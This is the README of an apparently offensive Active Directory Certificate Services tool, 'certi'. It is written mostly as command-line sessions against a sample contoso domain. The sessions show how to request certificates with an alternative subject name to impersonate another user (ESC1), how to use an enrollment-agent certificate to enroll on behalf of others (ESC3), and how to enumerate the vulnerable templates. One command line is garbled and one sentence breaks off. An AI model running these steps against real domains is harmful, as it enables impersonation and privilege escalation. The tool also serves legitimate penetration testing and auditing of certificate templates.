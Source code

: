# certi

Utility to play with ADCS, allows to request tickets and collect information about related objects. Basically, it's the impacket copy of [Certify](https://github.com/GhostPack/Certify). Thanks to [@harmj0y](https://twitter.com/harmj0y) and [@tifkin_](https://twitter.com/tifkin_) for [its great work with ADCS](https://www.specterops.io/assets/resources/an_ace_up_the_sleeve.pdf).

## Request a certificate

To request a certificate you can use the req command:
```
$ getTGT.py 'contoso.local/Anakin:Vader1234!'ader1234!'
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Saving ticket in Anakin.ccache
$ export KRB5CCNAME=Anakin.ccache
$ certi.py req 'contoso.local/Anakin@dc01.contoso.local' contoso-DC01-CA -k -n
[*] Service: contoso-DC01-CA
[*] Template: User
[*] Username: Anakin

[*] Response: 0x3 Issued  0x80094004, The Enrollee (CN=Anakin,CN=Users,DC=contoso,DC=local) has no E-Mail name registered in the Active Directory.  The E-Mail name will not be included in the certificate.

[*] Cert subject: CN=Anakin,CN=Users,DC=contoso,DC=local
[*] Cert issuer: CN=contoso-DC01-CA,DC=contoso,DC=local
[*] Cert Serial: 75000000062BD9D6E3F1B15CC3000000000006
[*] Cert Extended Key Usage: Encrypting File System, Secure Email, Client Authentication

[*] Saving certificate in Anakin.pfx (password: admin)
```

As you may notice, you need to use Kerberos, since is the authentication method required by enrollment services. In case using other method you will get the following error:
```
(certi) certi$ certi.py req 'contoso.local/Anakin:Vader1234!@dc01.contoso.local' contoso-DC01-CA
Error: WCCE SessionError: code: 0x80094011 - CERTSRV_E_ENROLL_DENIED - The permissions on this CA do not allow the current user to enroll for certificates.
Help: Try using Kerberos authentication with -k -n params
```

### Request with an alternative name


You can use the `--alt-name` parameter to give an alternative subject and request a certificate that can be used to impersonate the target user if some template allows you to do that:
```
$ certi.py req 'contoso.local/Anakin@dc01.contoso.local' contoso-DC01-CA -k -n --alt-name han --template UserSAN
[*] Service: contoso-DC01-CA
[*] Template: UserSAN
[*] Username: Anakin
[*] Alternative Name: han

[*] Response: 0x3 Issued

[*] Cert subject: CN=Anakin
[*] Cert issuer: CN=contoso-DC01-CA,DC=contoso,DC=local
[*] Cert Serial: 750000000A858CC4B4C9301ED600000000000A
[*] Cert Extended Key Usage: Encrypting File System, Secure Email, Client Authentication
[+] Cert Altname: han@contoso.local

[*] Saving certificate in han@contoso.local.pfx (password: admin)

```

You can get the templates vulnerable to this by using the `--vuln` and `--enable` params of the list command (be sure ):

```
$ certi.py list 'contoso.local/Anakin' -k -n --dc-ip 192.168.100.2 --vuln --enable | grep ESC1 -B 3
Name: SubCA
Schema Version: 1
Enroll Services: contoso-DC01-CA
Vulnerabilities: ESC1 - SAN Impersonation, ESC2 - Any Purpose, ESC3.2 - Use Agent Certificate
--
Name: UserSAN
Schema Version: 2
Enroll Services: contoso-DC01-CA
Vulnerabilities: ESC1 - SAN Impersonation
```


### Request as an enrollment agent


In case the available templates allows you to do that, you can request a certificate for an enrollment agent and then use it to request a certificate for another user:

```
$ certi.py req 'contoso.local/Han@dc01.contoso.local' contoso-DC01-CA -k -n --template EnrollAgent
[*] Service: contoso-DC01-CA
[*] Template: EnrollAgent
[*] Username: Han

[*] Response: 0x3 Issued

[*] Cert subject: CN=Han
[*] Cert issuer: CN=contoso-DC01-CA,DC=contoso,DC=local
[*] Cert Serial: 75000000256F1BB99993785823000000000025
[*] Cert Extended Key Usage: Certificate Request Agent

[*] Saving certificate in Han.pfx (password: admin)
$ certi.py req 'contoso.local/Han@dc01.contoso.local' contoso-DC01-CA -k -n --on-behalf anakin --enroll-cert Han.pfx --enroll-cert-pw admin --template EnrollWithAgent
[*] Service: contoso-DC01-CA
[*] Template: EnrollWithAgent
[*] Username: Han
[*] On behalf of: anakin

[*] Response: 0x3 Issued

[*] Cert subject: CN=anakin
[*] Cert issuer: CN=contoso-DC01-CA,DC=contoso,DC=local
[*] Cert Serial: 750000002AB527D8E1E64930DC00000000002A
[*] Cert Extended Key Usage: Any Purpose, Certificate Request Agent, Encrypting File System, Secure Email, Client Authentication

[*] Saving certificate in anakin.pfx (password: admin)
```


You can check for templates vulnerable to these misconfigurations with the `list` command (we are that permissions may restrict you from request a certificate for a given template):
```
$ certi.py list 'contoso.local/Han' -k -n --dc-ip 192.168.100.2 --vuln --enable | grep ESC3 -B 3
Name: User
Schema Version: 1
Enroll Services: contoso-DC01-CA
Vulnerabilities: ESC3.2 - Use Agent Certificate
--
Name: Administrator
Schema Version: 1
Enroll Services: contoso-DC01-CA
Vulnerabilities: ESC3.2 - Use Agent Certificate
--
Name: Machine
Schema Version: 1
Enroll Services: contoso-DC01-CA
Vulnerabilities: ESC3.2 - Use Agent Certificate
--
Name: DomainController
Schema Version: 1
Enroll Services: contoso-DC01-CA
Vulnerabilities: ESC3.2 - Use Agent Certificate
--
Name: SubCA
Schema Version: 1
Enroll Services: contoso-DC01-CA
Vulnerabilities: ESC1 - SAN Impersonation, ESC2 - Any Purpose, ESC3.2 - Use Agent Certificate
--
Name: EnrollAgent
Schema Version: 2
Enroll Services: contoso-DC01-CA
Vulnerabilities: ESC3.2 - Use Agent Certificate
--
Name: EnrollwithAgent
Schema Version: 2
Enroll Services: contoso-DC01-CA
Vulnerabilities: ESC3.2 - Use Agent Certificate

```


## List services


```
$ certi.py list 'contoso.local/Han' -k -n --class service
[*] Enrollment Services

Name: contoso-DC01-CA
DNS name: dc01.contoso.local
Templates: EnrollwithAgent, EnrollAgent, UserSAN, DirectoryEmailReplication, DomainControllerAuthentication, KerberosAuthentication, EFSRecovery, EFS, DomainController, WebServer, Machine, User, SubCA, Administrator
Certificate:
  Cert Subject: CN=contoso-DC01-CA,DC=contoso,DC=local
  Cert Serial: 23D21EB948AC688545EC15FEB03B0C33
  Cert Start: 2021-08-01 12:49:46
  Cert End: 2026-08-01 12:59:46
  Cert Issuer: CN=contoso-DC01-CA,DC=contoso,DC=local

```


## List CAs

```
$ certi.py list 'contoso.local/Han' -k -n --dc-ip 192.168.100.2 --class ca
[*] Root CAs

Cert Subject: CN=contoso-DC01-CA,DC=contoso,DC=local
Cert Serial: 23D21EB948AC688545EC15FEB03B0C33
Cert Start: 2021-08-01 12:49:46
Cert End: 2026-08-01 12:59:46
Cert Issuer: CN=contoso-DC01-CA,DC=contoso,DC=local

[*] Authority Information Access

Cert Subject: CN=contoso-DC01-CA,DC=contoso,DC=local
Cert Serial: 23D21EB948AC688545EC15FEB03B0C33
Cert Start: 2021-08-01 12:49:46
Cert End: 2026-08-01 12:59:46
Cert Issuer: CN=contoso-DC01-CA,DC=contoso,DC=local

```
